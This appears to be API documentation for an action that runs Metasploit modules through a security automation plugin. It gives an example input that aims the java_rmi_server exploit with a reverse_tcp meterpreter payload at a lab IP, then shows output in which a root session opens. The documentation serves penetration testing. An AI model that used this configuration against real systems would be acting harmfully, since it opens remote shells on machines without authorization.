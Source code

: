 Example input:

```
{
  "module": "exploit/multi/misc/java_rmi_server",
  "options": {
    "RHOST": "10.0.2.5",
    "RPORT": "1099",
    "LHOST": "10.0.2.15",
    "payload": "java/meterpreter/reverse_tcp"
  }
}
```

##### Output

|Name|Type|Required|Description|
|----|----|--------|-----------|
|console_output|[]string|False|Information from the console when a module is executed|
|session_information|session_info|False|Session information provided when a module is executed|

Example output:

```

{
  "session_information": {
    "info": "",
    "username": "root",
    "session_port": 1099,
    "via_payload": "payload/java/meterpreter/reverse_tcp",
    "uuid": "3vxgkpvv",
    "tunnel_local": "10.0.2.15:4444",
    "via_exploit": "exploit/multi/misc/java_rmi_server",
    "arch": "java",
    "exploit_uuid": "a2r4nsto",
    "tunnel_peer": "10.0.2.5:48164",
    "platform": "java",
    "session_id": 63,
    "workspace": "false",
    "routes": "",
    "target_host": "10.0.2.5",
    "type": "meterpreter",
    "session_host": "10.0.2.5",
    "desc": "Meterpreter"
  },
  "console_output": [
    "Exploit running as background job 110.",
    "Started reverse TCP handler on 10.0.2.15:4444 ",
    "10.0.2.5:1099 - Using URL: http://0.0.0.0:8080/YA3YZGmuDgip",
    "10.0.2.5:1099 - Local IP: http://10.0.2.15:8080/YA3YZGmuDgip",
    "10.0.2.5:1099 - Server started.",
    "10.0.2.5:1099 - Sending RMI Header...",
    "10.0.2.5:1099 - Sending RMI Call...",
    "10.0.2.5:1099 - Replied to request for payload JAR",
    "Sending stage (53837 bytes) to 10.0.2.5"
  ]
}

```
